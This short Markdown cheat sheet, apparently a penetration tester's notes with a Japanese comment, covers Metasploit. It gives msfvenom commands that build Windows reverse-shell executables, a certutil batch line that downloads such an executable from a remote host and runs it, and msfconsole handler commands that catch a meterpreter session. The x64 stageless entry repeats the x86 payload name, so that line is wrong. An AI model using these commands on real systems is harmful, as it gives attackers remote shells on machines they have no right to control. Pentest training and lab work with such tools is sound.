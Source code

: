 # Metasploit
## msfvenom
### staged payloads for windows
#### x86
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```
#### x64
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### stageless payloads for windows
#### x86
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```
#### x64
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Batch file
```
certutil.exe -f -urlcache -split http://192.168.45.232:8000/shell-x64.exe c:\windows\temp\reverse.exe && cmd.exe c:\windows\temp\reverse.exe
```

## msfconsole
use multi/handler  
```
use exploit/multi/handler
```
  
set payload  
msfvenomで選んだpayloadをセットする  
```
set payload windows/x64/meterpreter/reverse_tcp
set lhost ATTACKERIP
set lport ATTACKERPORT
exploit
```

